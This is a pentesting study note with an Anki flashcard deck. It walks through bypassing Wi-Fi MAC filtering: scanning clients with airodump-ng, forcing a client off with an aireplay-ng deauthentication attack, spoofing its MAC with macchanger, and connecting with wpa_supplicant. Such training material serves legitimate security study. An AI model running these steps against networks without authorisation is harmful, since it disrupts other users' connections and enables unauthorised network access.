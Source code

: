 # Wi-Fi Pentesting Chain #9: Bypassing MAC Filtering

MAC filtering is a weak access control method where only devices with approved MAC addresses are allowed to connect. Since MAC addresses can be spoofed, this control can be bypassed.

---

## Step 1: Identify Target Network and Clients

1. Put your interface into monitor mode if it’s not already:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Use `airodump-ng` to scan for networks and associated clients:
   ```bash
   sudo airodump-ng wlan0mon
   ```

   **What you’re looking for:**
   - Target **BSSID** (the AP’s MAC address).
   - **ESSID** (network name).
   - **Client MAC addresses** (STATION field).

   **Diversion:**
   - If you see **no clients connected**, MAC spoofing won’t help unless you know an allowed MAC address. You may have to wait until a client connects.

---

## Step 2: Select a Client MAC Address to Imitate

- Pick one of the connected client MACs.
- Note that if you spoof an address that is still connected, you’ll cause **MAC collisions**, which may:
  - Disrupt both connections.
  - Trigger suspicion.

**Better approach:**
- Wait until the client disconnects naturally.
- Or force the client to disconnect using a **deauthentication attack**:
  ```bash
  sudo aireplay-ng -0 5 -a <BSSID> -c <Client_MAC> wlan0mon
  ```

---

## Step 3: Spoof Your MAC Address

1. Stop monitor mode to work with a managed interface:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Check your current MAC address:
   ```bash
   sudo macchanger wlan0
   ```

3. Change your MAC address to the client’s MAC:
   ```bash
   sudo ifconfig wlan0 down
   sudo macchanger wlan0 -m <Client_MAC>
   sudo ifconfig wlan0 up
   ```

4. Verify the change:
   ```bash
   ifconfig wlan0
   ```

---

## Step 4: Connect to the Network

- Now that your MAC matches an authorized client, connect normally with the password:
  ```bash
  sudo wpa_supplicant -c wpa.conf -i wlan0 &
  sudo dhclient wlan0
  ```

**Diversion:**
- If the AP also has a **5 GHz band** with no active clients, spoof a client’s MAC from 2.4 GHz but connect to 5 GHz. This avoids collisions.

---

## Step 5: Confirm Successful Connection

- Check that you have an IP:
  ```bash
  ifconfig wlan0
  ```
- Verify connectivity with ping:
  ```bash
  ping -c 4 8.8.8.8
  ```

If successful, you’ve bypassed MAC filtering.

---

## Anki Deck:
```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6
1aB3cD9fGh	Basic	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What is MAC filtering in Wi-Fi security?	A method that restricts network access to devices with pre-approved MAC addresses.	wifi
2bC4dE8gHi	Basic	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	Why is MAC filtering considered weak security?	Because MAC addresses can be easily spoofed by attackers.	wifi
3cD5eF7hIj	Basic	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What happens if two devices use the same MAC address on a network?	It causes a MAC collision, disrupting connectivity for both devices.	wifi
4dE6fG1iJk	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What `airodump-ng` command scans for networks and clients using the `wlan0mon` interface?	<code>sudo airodump-ng wlan0mon</code>	wifi
5eF7gH2jKl	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What `aireplay-ng` command sends 5 deauth packets to client &lt;Client_MAC&gt; on AP &lt;BSSID&gt;?	<code>sudo aireplay-ng -0 5 -a &lt;BSSID&gt; -c &lt;Client_MAC&gt; wlan0mon</code>	wifi
6fG8hI3kLm	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command stops monitor mode on `wlan0mon`?	<code>sudo airmon-ng stop wlan0mon</code>	wifi
7gH9iJ4lMn	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command displays the current and permanent MAC address of `wlan0`?	<code>sudo macchanger wlan0</code>	wifi
8hI0jK5mNo	Cloze (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What sequence of commands changes `wlan0` MAC to &lt;Client_MAC&gt;?<br><br>{{c1::sudo ifconfig wlan0 down}}<br>{{c1::sudo macchanger wlan0 -m &lt;Client_MAC&gt;}}<br>{{c1::sudo ifconfig wlan0 up}}		wifi
9iJ1kL6nOp	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command verifies the new MAC address of `wlan0`?	<code>ifconfig wlan0</code>	wifi
0jK2lM7oPq	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command connects to a Wi-Fi network using `wpa_supplicant` with config file `wpa.conf`?	<code>sudo wpa_supplicant -c wpa.conf -i wlan0 &amp;</code>	wifi
aK3lN8pQrR	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command requests an IP from DHCP after connecting with `wpa_supplicant`?	<code>sudo dhclient wlan0</code>	wifi
bL4mO9qRsS	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command checks if you successfully obtained an IP on `wlan0`?	<code>ifconfig wlan0</code>	wifi
cM5nP0rStT	Basic (type in the answer)	Ops::WiFi Gym::Chain 9: Bypassing MAC Filtering	What command tests connectivity by pinging Google DNS?	<code>ping -c 4 8.8.8.8</code>	wifi
```
